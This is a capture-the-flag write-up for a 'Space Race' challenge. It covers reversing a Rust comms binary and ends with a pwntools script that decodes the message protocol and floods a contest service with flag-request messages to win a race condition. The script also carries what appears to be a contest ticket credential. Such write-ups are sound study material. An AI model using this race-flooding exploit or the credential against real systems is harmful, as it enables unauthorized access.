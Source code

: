 # Challenge Overview
The Space Race challenge required finding a flaw in the flight control software that communicated with the a comms service binary provided only the comms service binary. The binary provided was a 2MB+ stripped ELF64 file.

# Analysis
Strings in the provided binary made it clear that the binary was written in rust. As such, it was unlikely that the flaw was a memory corruption, and given the name of the program, we guessed that a race condition of some sort was the goal. This binary is large so we started with looking at where data is processed from "recv" functions along with strings.

## Static Analysis
Strings are not null terminated in the rust binary making, instead stored as a count and pointer, with the strings occuring one after another making it harder to analyze the individual ones. Looking for flag showed several strings related to a flag process, showing that there are options to start, stop, and request the flag from the flag process. Further the start and stop required an authorization key. Tracing what the value was for the authorization appeared to show that it came from a configuration file, so we could not grab it from the binary.

We created structures in IDA Pro to be able to follow buffers and strings in the rust program, as we were not terribly famililar with the rust API that would be represented by the compiled code. We also looked at the places where recv was called to see how our data was processed. One of the location added to a buffer and was located close the same function that appeared to parse and use the data before accessing the flag process. Tracing functions and the use of the recv'ed buffer showed two helpful points:
1. The data was immediately passed into a CRC32 function that checked the data against the last four bytes of the message
2. One built a message four output that did a lot of bit twiddling. We decided to use this information to attempt to parse the messages received from the service.

The data received was processed and compared to various task ids to determine if it was flag task, TLM taks, housekeeping task, etc. We did not get as far as determining the IDs, theorizing that they were pulled from the config file.

## Dynamic Analysis
We wrote a script to connect to the service and attempt to parse the received data based on the bit twiddling we saw in the binary. We were then able parse the six byte header consisting of a message type, some sequence number, length of payload minus 3, flags, followed by the payload and finally the CRC32. We were confident we were able to do this correctly once the CRC32 and length matched up. This showed that without interaction there were 3 messages message types received:
1. Type 0x6e was received the most, consisting of 50 bytes of binary data we never bothered with decoding
2. Type 0x6a provided a memory and disk usage report in JSON format
3. Type 0x64 was received once and reported FLAG APP FINE

We then attempted to determine the task id we needed to send for a flag task. We started by sending a payload of several \x01 values and using all possible values for the task ID to see if we could get a response, but nothing different was received. After several hours of trying to determine what was wrong (we never bothered actually running the service locally due to needing to determine the config.toml format), we realized a typo in the script was stripping off our header and thus all the CRC32 values were wrong resulting in our message being thrown out. We fixed the issue.... and still had the same problem. After staring at the code for another hour we realized that our length value was wrong as we had included the CRC32 in it and it should not be included. 

Throwing our script again resulted in the type 0x64 returning the string "NOT AUTHORIZED". We remembered seeing this in the binary, and determined that sending a payload with a value of '\x2' would request the flag instead of trying to start/stop the flag service. Updating the script to send this resulted in "FLAG SERVICE NOT AVAILABLE" so we figured we were on the correct path.

Running a couple of times showed that "FLAG APP FINE" message always occurred after the 5th time the 0x6a message was received (sequence number 4). We figured we would try to send the `Retrieve Flag` request at that point, and send a lot of them to try to win a potential race. To our great surprise, this worked the first time! One of the responses received after all of the requests contained the flag, indicating that we successfully sent the request while the service was polling the flag service, winning the race.

## Lessons Learned
We put off running the service locally due to needing
1. A valid configuration file
2. A flag service running separately

but in retrospect this probably would have saved time in debugging our solution.

# Final Solution
```python
from pwn import *
import zlib
import binascii


def send_data(c, typeCode, seq, flags, payload):
    bits1_3 = (typeCode >> 8) & 0x3
    bit4 = (flags >> 16) & 0x8
    bit5 = (flags >> 8) & 0x10
    bits6_8 = (flags & 7) << 5
    bits17_22 = (seq >> 8) & 0x3f
    bits23_24 = (flags >> 18)
    hdr = p8(bits1_3 | bit4 | bit5 | bits6_8) + p8(typeCode & 0xff) + p8(bits23_24 | bits17_22) + p8(seq & 0xff)

    # print 'Encoded %x %x %x as %s' % (typeCode, seq, flags, binascii.hexlify(hdr))
    data = hdr + p16(len(payload) + 3, endian='big') + payload
    msg = data + p32(zlib.crc32(data), endian='big', sign='signed')
    
    c.send(msg)

def read_entry(c):
    header = c.recv(6)
    size = u16(header[4:], endian='big') - 3
    bits = u8(header[0])
    first_bits = bits&3
    bit4 = bits&8
    bit5 = bits&0x10
    bits6_8 = (bits&0xe0) >> 5
    bits9_16 = u8(header[1])
    bits17_22 = u8(header[2]) & 0x3f
    bits23_24 = u8(header[2]) >> 6
    bits25_32 = u8(header[3])
    typeId = bits9_16 | (first_bits << 8)
    seqno = bits25_32 | (bits17_22 << 8)
    flags = bits6_8 | (bit5 << 8) | (bit4 << 16) | (bits23_24 << 24)

    print ('Decoded header %x %x %x from %s' % (typeId, seqno, flags, binascii.hexlify(header[:4])))

    print ("Decoded size 0x%x" % (size))

    payload = c.recv(size)
    print 'Payload:'
    print repr(payload)
    #print binascii.hexlify(payload)
    crc32 = c.recv(4)
    calculated = zlib.crc32(header + payload)
    received = u32(crc32, endian='big', sign='signed')
    return (calculated == received, payload, typeId, seqno, flags)

conn = remote('spacerace.satellitesabove.me', 5063)
print conn.recvline()
conn.sendline('ticket{bravo70356whiskey:GFmffmBdjY7l-HU1vYmZ9r0ndaao8K7omtj58JfSg4hmCjKRcZweU69LQA5tKbrCWQ}')
real = conn.recvline()
conn.close()

c2 = remote(real[13:].split(':')[0], int(real.split(':')[1]))

print "Connected to service"


for test in range(100):
  status, payload, typeId, seqno, flags = read_entry(c2)
  # Service should be up after this...
  if seqno == 4 and typeId == 0x6a:
  #    print 'Sending test'

    # 64 is the flag related stuff...
    # I believe payload 0 = start, 1 = stop, 2 = retrieve
    
    # Spam it hard
    for i in range(1000):
      send_data(c2, 0x64, 0, 0x3000000, '\x02'*10)



c2.close()
```
